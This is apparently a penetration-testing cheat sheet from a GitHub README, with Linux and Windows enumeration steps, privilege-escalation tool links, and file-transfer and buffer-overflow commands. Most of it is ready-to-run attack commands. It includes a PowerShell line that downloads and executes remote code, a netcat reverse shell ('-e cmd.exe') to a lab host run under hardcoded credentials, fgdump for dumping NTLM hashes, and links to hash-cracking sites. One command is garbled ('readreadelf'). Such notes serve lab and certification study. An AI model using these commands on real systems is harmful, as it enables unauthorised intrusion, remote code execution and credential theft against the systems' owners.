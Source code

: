Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files    
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  
[fgdump.exe](https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump)  /// DumpPassword NTLM Hashes  

File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


PSChangeUser  
----------------------------------------------------
$username = 'alice'  
$password = 'alicepass'  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword  
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","10.10.10.10","443","-e","cmd.exe") -WorkingDirectory C:\Users\Public  

Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
https://refabr1k.gitbook.io/oscp/reverse-shell  //StudyNotes  

